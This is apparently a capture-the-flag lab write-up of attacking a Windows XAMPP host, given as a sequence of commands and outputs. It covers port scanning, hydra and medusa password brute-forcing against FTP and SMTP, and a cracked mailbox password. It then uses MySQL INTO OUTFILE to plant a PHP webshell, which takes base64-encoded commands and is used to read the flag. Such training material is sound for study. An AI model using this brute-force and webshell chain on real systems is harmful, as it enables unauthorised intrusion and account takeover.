 ## LAB EASY

nmap -sC -sV -oA nmap $TARGET --stats-every=5s

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     Command unknown, not supported or not allowed...
|     Command unknown, not supported or not allowed...
|   Help: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     214-The following commands are implemented
|     USER PASS ACCT QUIT PORT RETR
|     STOR DELE RNFR PWD CWD CDUP
|     NOOP TYPE MODE STRU
|     LIST NLST HELP FEAT UTF8 PASV
|     MDTM REST PBSZ PROT OPTS CCC
|     XCRC SIZE MFMT CLNT ABORT
|     HELP command successful
|   NULL, SMBProgNeg: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|   SSLSessionReq: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|_    Command unknown, not supported or not allowed...
| ssl-cert: Subject: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
| Not valid before: 2022-04-21T19:27:17
|_Not valid after:  2032-04-18T19:27:17
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp   open  http          Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
| http-title: Welcome to XAMPP
|_Requested resource was http://10.129.190.124/dashboard/
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29
443/tcp  open  https?
| ssl-cert: Subject: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
| Not valid before: 2022-04-21T19:27:17
|_Not valid after:  2032-04-18T19:27:17
587/tcp  open  smtp          hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
3306/tcp open  mysql         MySQL 5.5.5-10.4.24-MariaDB
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.24-MariaDB
|   Thread ID: 10
|   Capabilities flags: 63486
|   Some Capabilities: DontAllowDatabaseTableColumn, FoundRows, SupportsTransactions, ODBCClient, Speaks41ProtocolOld, IgnoreSigpipes, InteractiveClient, Speaks41ProtocolNew, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, LongColumnFlag, ConnectWithDatabase, Support41Auth, SupportsCompression, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: Oc'5tk:~1u|/rp^feJ}[
|_  Auth Plugin Name: mysql_native_password
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WIN-EASY
| Not valid before: 2023-11-15T04:22:22
|_Not valid after:  2024-05-16T04:22:22
|_ssl-date: 2023-11-16T04:25:52+00:00; +1s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.93%I=7%D=11/16%Time=65559982%P=x86_64-pc-linux-gnu%r(NUL
SF:L,41,"220\x20Core\x20FTP\x20Server\x20Version\x202\.0,\x20build\x20725,
SF:\x2064-bit\x20Unregistered\r\n")%r(GenericLines,AD,"220\x20Core\x20FTP\
SF:x20Server\x20Version\x202\.0,\x20build\x20725,\x2064-bit\x20Unregistere
SF:d\r\n502\x20Command\x20unknown,\x20not\x20supported\x20or\x20not\x20all
SF:owed\.\.\.\r\n502\x20Command\x20unknown,\x20not\x20supported\x20or\x20n
SF:ot\x20allowed\.\.\.\r\n")%r(Help,17B,"220\x20Core\x20FTP\x20Server\x20V
SF:ersion\x202\.0,\x20build\x20725,\x2064-bit\x20Unregistered\r\n214-The\x
SF:20following\x20commands\x20are\x20implemented\r\n\x20\x20\x20\x20\x20US
SF:ER\x20\x20PASS\x20\x20ACCT\x20\x20QUIT\x20\x20PORT\x20\x20RETR\r\n\x20\
SF:x20\x20\x20\x20STOR\x20\x20DELE\x20\x20RNFR\x20\x20PWD\x20\x20\x20CWD\x
SF:20\x20\x20CDUP\r\n\x20\x20\x20\x20\x20MKD\x20\x20\x20RMD\x20\x20\x20NOO
SF:P\x20\x20TYPE\x20\x20MODE\x20\x20STRU\r\n\x20\x20\x20\x20\x20LIST\x20\x
SF:20NLST\x20\x20HELP\x20\x20FEAT\x20\x20UTF8\x20\x20PASV\r\n\x20\x20\x20\
SF:x20\x20MDTM\x20\x20REST\x20\x20PBSZ\x20\x20PROT\x20\x20OPTS\x20\x20CCC\
SF:r\n\x20\x20\x20\x20\x20XCRC\x20\x20SIZE\x20\x20MFMT\x20\x20CLNT\x20\x20
SF:ABORT\r\n214\x20\x20HELP\x20command\x20successful\r\n")%r(SSLSessionReq
SF:,77,"220\x20Core\x20FTP\x20Server\x20Version\x202\.0,\x20build\x20725,\
SF:x2064-bit\x20Unregistered\r\n502\x20Command\x20unknown,\x20not\x20suppo
SF:rted\x20or\x20not\x20allowed\.\.\.\r\n")%r(SMBProgNeg,41,"220\x20Core\x
SF:20FTP\x20Server\x20Version\x202\.0,\x20build\x20725,\x2064-bit\x20Unreg
SF:istered\r\n");
Service Info: Host: WIN-EASY; OS: Windows; CPE: cpe:/o:microsoft:windows


sudo nmap -sC -sV -p 21 $TARGET

medusa -U user.list -P /usr/share/wordlists/rockyou.txt -h $TARGET -M ftp
medusa -U user.list -P password.list -h $TARGET -M ftp

hydra -L user.list -P password.list ftp://$TARGET

smtp-user-enum -M RCPT -U user.list -D inlanefreight.htb -t $TARGET

######## Scan started at Thu Nov 16 04:51:56 2023 #########
10.129.190.124: fiona@inlanefreight.htb exists

medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h $TARGET -M ftp

hydra -l fiona -P password.list ftp://$TARGET
hydra -l fiona -P /usr/share/wordlists/rockyou.txt ftp://$TARGET

nmap  -vvv -sCV --script socks-brute --script-args userdb=users.txt,passdb=/usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt

nmap -p 143,993 --script imap-brute --script-args userdb=users.txt,passdb=password.list $TARGET

vi users.txt
vi password.list
nmap -p 25 --script smtp-brute --script-args userdb=users.txt,passdb=password.list $TARGET

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-brute: 
|   Accounts: No valid accounts found
|_  Statistics: Performed 334 guesses in 24 seconds, average tps: 13.3


nmap -p 25 --script smtp-brute --script-args userdb=users.txt,passdb=/usr/share/wordlists/rockyou.txt $TARGET


hydra -l 'fiona@inlanefreight.htb' -p password.list -f $TARGET smtp

git clone https://github.com/0xZDH/o365spray
python3 o365spray/o365spray.py --validate --domain inlanefreight.htb
[2023-11-18 18:51:26,410] info | [FAILED] The following domain does not appear to be using O365: inlanefreight.htb

nc -v $TARGET 25

hydra -f -l fiona@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt smtp://$TARGET -t 64
[25][smtp] host: 10.129.203.7   login: fiona@inlanefreight.htb   password: 987654321


telnet $TARGET 25

MAIL FROM:fiona
MAIL FROM:fiona@inlanefreight.htb
RCPT TO:fiona

EHLO inlanefreight.htb
AUTH LOGIN

echo -n 'fiona@inlanefreight.htb' |base64 -w 0;echo
ZmlvbmFAaW5sYW5lZnJlaWdodC5odGI=
echo -n '987654321' |base64 -w 0;echo
OTg3NjU0MzIx

--> Impossible to consult emails using SMTP, only possible to send new emails

mysql -u fiona -p987654321 -h $TARGET
SHOW DATABASES;
USE test;
USE test;
SHOW TABLES;
Empty set (0.017 sec)

USE performance_schema;
SELECT * FROM users;

system rm '/xampp/htdocs/webshell.php';
SELECT "<?php echo $command_decode=base64_decode($_REQUEST[0]); echo system($command_decode); ?>" INTO OUTFILE '/xampp/htdocs/webshell5.php';

http://10.129.41.144/webshell5.php?0="Y2QgYzpc"
http://10.129.41.144/webshell5.php?0=d2hvYW1pCg==
http://10.129.41.144/webshell5.php?0=Y2QgLi4gfCBkaXI=
http://10.129.41.144/webshell5.php?0=ZGlyIC93IC9wIGM6XAo=


where /R C:\ flag.txt
http://10.129.41.144/webshell5.php?0=d2hlcmUgL1IgQzpcIGZsYWcudHh0Cg==
where /R C:\ flag.txt C:\Users\Administrator\Desktop\flag.txt C:\Users\Administrator\Desktop\flag.txt

type C:\Users\Administrator\Desktop\flag.txt
http://10.129.41.144/webshell5.php?0=dHlwZSBDOlxVc2Vyc1xBZG1pbmlzdHJhdG9yXERlc2t0b3BcZmxhZy50eHQK
HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}